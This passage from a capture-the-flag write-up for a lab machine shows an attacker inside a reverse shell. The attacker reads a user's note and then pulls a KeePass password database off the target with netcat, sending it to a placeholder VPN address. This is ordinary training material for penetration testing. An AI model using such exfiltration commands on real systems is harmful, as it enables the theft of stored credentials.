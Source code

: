 ![Pasted image 20250722171435.png](../../IMAGES/Pasted%20image%2020250722171435.png)

We can't read files inside of `kangchenjunga` home, we can read the `ToDo.txt` file though:

```
www-data@mountaineer:/tmp$ cat /home/nanga/ToDo.txt
cat /home/nanga/ToDo.txt
Just a gentle reminder to myself:

Even though K2 isn't fond of presents, I can't help but want to get him something special! I'll make sure to mark it on my calendar to pick out a little surprise for him by this weekend.

After all, his birthday may be several months away, but every day with him feels like a celebration of love!!!!
```

Python doesn't exist on the machine, we can transfer the file with netcat:

```bash
# On our machine:
nc -lvnp 1111 > backup.kdbx
# On the reverse shell
nc OUR_VPN_IP 1111 < /home/lhotse/Backup.kdbx
```

The file is encrypted with a password:

![Pasted image 20250722171439.png](../../IMAGES/Pasted%20image%2020250722171439.png)
